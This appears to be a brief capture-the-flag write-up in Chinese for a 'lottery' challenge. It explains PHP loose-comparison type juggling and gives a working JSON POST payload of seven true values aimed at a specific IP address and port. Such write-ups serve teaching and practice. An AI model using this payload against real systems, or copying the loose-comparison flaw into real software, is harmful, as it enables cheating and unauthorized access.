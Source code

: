 # lottery

> 核心代码
```php
    for($i=0; $i<7; $i++){
        if($numbers[$i] == $win_numbers[$i]){
            $same_count++;
        }
    }
```

用户输入的数字的每一位与系统生成的数字进行对比，如果相等，则相等数量加一。

弱类型的PHP的true与正整数相等，所以可以用[true, true, true, true, true, true, true]来匹配。

```payload
POST http://220.249.52.133:37788/api.php

data:
{"action":"buy","numbers":[true, true, true, true, true, true, true]}
```
